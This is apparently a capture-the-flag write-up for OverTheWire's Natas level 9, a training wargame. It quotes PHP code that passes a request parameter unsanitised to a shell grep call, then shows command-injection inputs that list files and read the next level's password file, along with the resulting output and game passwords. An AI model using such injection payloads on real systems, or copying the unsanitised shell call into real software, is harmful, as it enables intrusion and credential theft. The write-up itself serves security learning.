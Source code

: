 # Natas9

*	user: `natas9`
*	pass: `W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl`
*	url: `http://natas9.natas.labs.overthewire.org`
*	flag: `nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu`

## Procedure

1.	Let's click on `View sourcecode`

		<pre>
		<?
		$key = "";

		if(array_key_exists("needle", $_REQUEST)) {
			$key = $_REQUEST["needle"];
		}

		if($key != "") {
			passthru("grep -i $key dictionary.txt");
		}
		?>
		</pre>

2.	The way to call `grep` command seems to be vulnerable to commands
	injection. Let's try to set value of `needle` parameter to
	`; ls -l ;`

		total 480
		drwxr-x---  2 natas9 natas9   4096 Nov 14 10:32 .
		drwxr-xr-x 34 root   root     4096 Nov 15 17:17 ..
		-rw-r-----  1 natas9 natas9    118 Nov 14 10:32 .htaccess
		-rw-r-----  1 natas9 natas9     42 Nov 14 10:32 .htpasswd
		-rw-r-----  1 natas9 natas9 460878 Nov 14 10:27 dictionary.txt
		-rw-r-----  1 natas9 natas9   1952 Nov 14 10:32 index-source.html
		-rw-r-----  1 natas9 natas9   1185 Nov 14 10:32 index.php
		-rw-r-----  1 natas9 natas9   1165 Nov 14 10:27 index.php.tmpl

3.	Let's try the same path suggested in Natas7. By injecting the
	following code

		; cat /etc/natas_webpass/natas10 ;

	the result is

		nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
